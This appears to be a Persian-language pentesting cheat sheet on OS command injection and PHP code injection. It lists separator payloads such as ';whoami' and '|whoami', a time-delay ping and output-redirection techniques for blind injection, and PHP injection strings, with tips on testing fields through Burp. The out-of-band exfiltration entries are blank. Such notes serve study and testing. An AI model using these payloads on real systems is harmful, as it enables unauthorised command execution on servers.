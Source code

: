 # Remote Command Execution

## Concept
- در بخش های زیر به دنبال این آسیب پذیری می گردیم :
  - انتخاب یک آیتم از درون dropdown box
    - باید برای تغییر این پارامتر و نیز مشاهده تاثیر در پاسخ، حتما از Burp استفاده کنیم
  - درون فیلدهای بخش ثبت نظرات که ممکن است از دستورات سیستمی برای پردازش اطلاعات کاربر (مانند ایمیل) استفاده شده باشد
    - هنگام استفاده از Burp باید حتما URL Encoding داشته باشیم (مثلا به جای فاصله از + استفاده کنیم)

## Payloads
```
;whoami
;%20whoami
&whoami
&&whoami
|whoami
||whoami
%0Awhoami
```

## Blind OS Command Injection
- Time delays
  - ```x||ping+-c+10+127.0.0.1||```
  - <p dir="rtl">در این حالت پس از اجرای دستور فوق، 10 ثانیه طول می کشد تا response را در مرورگر مشاهده کنیم</p> 
- Output redirection
  - ```||whoami>/var/www/images/output.txt||```
  -  عکس ها در مسیر فوق ذخیره شده اند، در این حالت خروجی دستور، در مسیر share شده ذخیره می گردد و بعدا می توانیم یکی از عکس های محصولات را باز کرده، سپس نام  فایل را با نام output.txt تغییر دهیم، تا نتیجه دستور را مشاهده کنیم
- Out-of-band interaction : ``````
- Out-of-band data exfilteration : ``````

# Code Execution

## Payload
```
a";phpinfo();//
a".phpinfo();//
a);}phpinfo();//
```

## Sample PHP executable
- https://www.php.net/manual/en/function.shell-exec.php

